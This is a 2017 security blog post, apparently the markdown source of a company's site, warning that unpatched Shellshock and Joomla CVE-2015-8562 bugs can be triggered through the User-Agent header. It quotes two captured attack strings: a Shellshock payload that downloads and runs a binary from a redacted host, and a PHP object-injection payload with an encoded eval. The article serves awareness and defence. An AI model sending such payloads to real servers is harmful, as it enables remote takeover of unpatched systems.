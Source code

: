 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
description: "It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter."

# Breadcrumbs
breadcrumbs:
  - name: Home
    path: /
  - name: Blog
    path: /blog/1/
  - name: User-Agent based attacks...

# Fields
date: 2017-03-22
author:
  - Inbar Raz

blog_title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
categories: Research
tags:
  - commerce security

thumbnail: user-agent-based-attacks.jpg

canonical_overwrite: https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/
---
```


_As originally published in [betanews](https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/)_

![](/assets/images/blog/user-agent-based-attacks.jpg)

Old, unpatched vulnerabilities allow hackers to take over systems using the User-Agent string -- an elementary part of virtually every HTTP request.

It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter. There are many possible reasons for that, the most common being:

- Automatic updates are turned off.
- Update postponed by the user (usually due to an inconvenient timing).
- Unattended or remote servers are not supervised.
- Updates require a reboot which is never performed.

As a result, even though a patch has been created and deployed, there remain many unpatched systems on the Internet.

Hackers track patch releases and quickly reverse engineer the patch, in order to discover what vulnerability has just been fixed. Once they find it, they weaponize it and then proceed to scan the Internet for vulnerable machines. When a vulnerable machine is found, it is automatically compromised and the attacker takes control of it.

Here's a couple of vulnerabilities specific to when a system parses the User-Agent string from a web browser or any other HTTP request.

## The User-Agent string

When a web browser requests a page from a web server, it sends out a string containing information on the platform, operating system and software installed on the requesting computer. The web server can then use this information in order to better customize the page content for that particular browser. The best example would be to send a version of the page that is better laid out for mobile devices.

This string is called the [User-Agent](https://en.wikipedia.org/wiki/User_agent) string. User-Agent strings have many forms, and typically look similar to one of the following examples:

> Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.23 Safari/537.36

> Mozilla/5.0 (iPad; CPU iPhone OS 9_0_2 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A405

> Mozilla/5.0 (Linux; Android 4.0.4; HTC Desire P Build/IMM76D) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.166 Mobile Safari/535.19

As you can see, it’s relatively easy to tell that the first was generated by a Windows device, the second by an iPad and the third by an HTC mobile phone running Android.

In practice, anyone can put whatever they want in the User-Agent string, and send it to the web server. For example, here’s the User-Agent string for Googlebot:

> Googlebot/2.1 (+http://www.google.com/bot.html)

And one last example, a User-Agent of a Smart TV by Panasonic:

> Opera/9.80 (Linux mips; ) Presto/2.12.407 Version/12.51 MB98/0.0.32.5 (PANASONIC, Mxl661LG32, wireless) VSTVB_MB97 SmartTvA/3.0.0

## Parsing the User-Agent

There are many different web server products, using a variety of architectures and programming languages. And all must, at some point, take the string that was received from the request or the browser and parse it, in order to be able to customize the web page as required.

It is exactly that stage -- the parsing of the User-Agent string -- that gets targeted by hackers. The hackers’ rule of thumb says that when a remote system is processing a user-controlled input -- and the User-Agent string is, as we’ve shown, entirely controlled by the user -- it’s a good place to look for bugs.

Let’s look at two examples of such vulnerabilities, that hackers are trying to exploit on a regular basis: the Shellshock vulnerability, targeting linux systems, and a specific vulnerability targeting the Joomla CMS platform.

## Shellshock

CVE-2014-6271, CVE-2014-6277, CVE-2014-6278, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187

In September 2014, a vulnerability was discovered in <a href="https://en.wikipedia.org/wiki/Bash_(Unix_shell)" target="_blank">bash</a>, a popular shell (command-line interface) in Unix systems. The vulnerability, when exploited, allowed an attacker to take over the affected machine and execute arbitrary commands. This type of attack, named Remote Code Execution (or RCE for short) is the holy grail for attackers, since it gives the attacker a very high degree of control over the affected system.

Within hours of the publication of the existence of the vulnerability, both the black-hat community and the security industry mobilized.

The bad guys -- the black-hat community -- immediately started scanning the Internet for vulnerable systems, subsequently attacking them and taking control of them.

<img class="image-left" src="/assets/images/blog/shellshock.png" alt="shellshock" />

The good guys -- the security industry -- quickly took a deeper look at the affected modules and found a few more vulnerabilities in the same area. Those were collectively named <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" target="_blank">Shellshock</a> and the branding even included a logo

Following the discovery of Shellshock, security professionals have been racing to update all the vulnerable software they could lay their hands on. But not all businesses have their own private security professional, and more important, not all systems are routinely updated. As a result, vulnerable systems could still be found many months after the vulnerability had already been reported and fixed.

Of all the countless implementations that were found to be vulnerable, the one that was probably the easiest to exploit was the processing of the User-Agent string.

Here is an example of a User-Agent string we detected, that tries to trigger the Shellshock vulnerability and use it to download an executable from the Internet, and then run it:

> () { :;}; /bin/bash -c "wget http://[redacted]/wp2 -O /tmp/w3;curl -o /tmp/w3 http://[redacted]/wp2;chmod +x /tmp/w3;sh /tmp/w3;rm -rf /tmp/w3\*"

As it turns out, Shellshock exploitation attempts can still be detected across the board. These are opportunistic attempts, of course, but as the famous security lema says: The defender has to succeed 100 percent of the time, while the attacker only needs to succeed once.

## Joomla PHP object injection via HTTP User-Agent header

CVE-2015-8562

Joomla is a very popular CMS and web application framework written in PHP. It allows for a simple and easy development of a full featured web site, including a complete user system, comments platform, templates, plugins and more. As of September 2015 it is hosted in no less than 2,800,000 websites.

On December of 2015, the vulnerability was disclosed. A problem with parsing the User-Agent data led to an attacker being able to execute arbitrary code on an affected system. A thorough report on the vulnerability can be found in this [blog post by PatrolServer](https://blog.patrolserver.com/2015/12/17/in-depth-analyses-of-the-joomla-0-day-user-agent-exploit/).

Here’s an example of an attack we detected, using a specially-crafted User-Agent string, designed to trigger the vulnerability:

> }\_\_test|O:21:""JDatabaseDriverMysqli"":3:{s:2:""fc"";O:17:""JSimplepieFactory"":0:{}s:21:""\0\0\0disconnectHandlers"";a:1:{i:0;a:2:{i:0;O:9:""SimplePie"":5:{s:8:""sanitize"";O:20:""JDatabaseDriverMysql"":0:{}s:8:""feed_url"";s:1850:""eval(base64_decode('DQoJ[redacted]nApOw=='));JFactory::getConfig();exit"";s:19:""cache_name_function"";s:6:""assert"";s:5:""cache"";b:1;s:11:""cache_class"";O:20:""JDatabaseDriverMysql"":0:{}}i:1;s:4:""init"";}}s:13:""\0\0\0connection"";b:1;}����

The base64_decode() function is used to decode a large encoded block (redacted in this example), which is then used to create a script that, in turn, downloads and installs additional tools to be used by the attacker.

## Conclusion

The volume of User-Agent exploitation attempts that we are seeing is not high, but it’s stable. It proves to show that the illicit business model still works, and there are still vulnerable systems out there, being scanned for, attacked, taken over and then, on top of everything else, used to propagate the attack even further.

It’s an interesting attack vector, and we would like to raise the awareness to such attacks.

The most important thing you can do, of course, is **make sure all security patches are regularly installed**. This is a single-point-of-failure that allows this type of attacks to keep on going.

If you are a security professional, you should be working in **hunting mode** rather than in **fishing mode**. Don’t just wait for your security suits to notify you when they find something. Go look for it yourself. The User-Agent string is very easy to log and inspect, whether manually or using a simple script. It might not give you a real-time alert, but if such an attack has managed to make it through your defenses, at least you’ll be able to find it and mitigate it.

